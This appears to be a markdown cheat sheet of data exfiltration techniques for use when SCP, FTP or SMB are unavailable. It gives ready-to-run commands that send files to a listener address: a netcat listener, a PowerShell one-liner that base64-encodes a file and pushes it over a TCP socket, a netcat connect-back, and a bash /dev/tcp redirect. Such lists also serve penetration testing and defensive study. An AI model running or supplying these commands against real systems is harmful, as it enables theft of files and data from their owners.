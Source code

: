 # Data Exfiltration Techniques
## This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.
### Windows To Linux
Setup NetCat listener on Linux host:

```
nc -nlvp %ListeningPort% | base64 -d > file.ext
```

On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

### Linux To Linux
Setup NetCat listener on Linux host:

```
nc -nlvp port > file.ext
```

On the Linux host connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext 
```

If NetCat is unavailable, this can be done with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```
